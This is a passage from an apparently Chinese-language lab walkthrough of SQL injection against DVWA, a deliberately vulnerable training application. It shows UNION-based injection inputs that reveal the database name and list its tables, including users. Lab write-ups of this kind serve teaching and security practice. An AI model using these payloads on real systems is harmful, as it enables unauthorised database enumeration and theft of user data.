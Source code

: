 - 获取当前数据库,输入`1' union select database(),2 #`，显示结果如下，可知数据库名称为dvwa</b>![](./img/sql-in-6.png)
- 获取数据库中的表，输入:
```sql
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa'#
```
  - 结果如下,获取表名为guestbook和users</b>![](./img/sql-in-7.png) 
